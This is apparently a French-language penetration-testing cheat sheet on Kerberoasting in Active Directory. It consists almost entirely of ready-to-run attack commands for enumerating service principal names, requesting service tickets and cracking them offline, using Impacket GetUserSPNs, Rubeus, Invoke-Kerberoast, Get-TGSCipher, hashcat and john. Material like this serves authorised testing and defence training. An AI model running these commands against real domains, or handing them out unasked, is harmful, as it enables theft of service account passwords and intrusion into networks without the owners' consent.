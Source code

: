 ## Kerberoasting
Permet à un utilisateur de demander un ticket de service pour n'importe quel service avec un SPN enregistré, puis d'utiliser ce ticket pour déchiffrer le mot de passe du service. **Si le service a un SPN enregistré, il peut être Kerberoastable**

**Impacket**

```sh
impacket-GetUserSPNs.py target.local/user:password -dc-ip 192.168.x.x -request
```

**Rubeus**

```sh
C:\Users\Administrator> Rubeus.exe kerberoast
```

```
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

**Invoke-Kerberoast**

```sh
C:\Users\Administrator> Invoke-Kerberoast -domain target.local | Export-CSV -NoTypeInformation output.csv
john --session=Kerberoasting output.csv
```

---

Acceder au system compromis et chercher les SPN vulnerables

```c
. .\Find-PotentiallyCrackableAccounts.ps1

Find-PotentiallyCrackableAccounts
```

```c
setspn.exe -Q */*
```

Demander un ticket pour le TGS

```c
. .\Get-TGSCipher.ps1
Get-TGSCipher -SPN "SPN" -Format john
```

```c
rubeus.exe kerberoast /outfile:hash.txt
```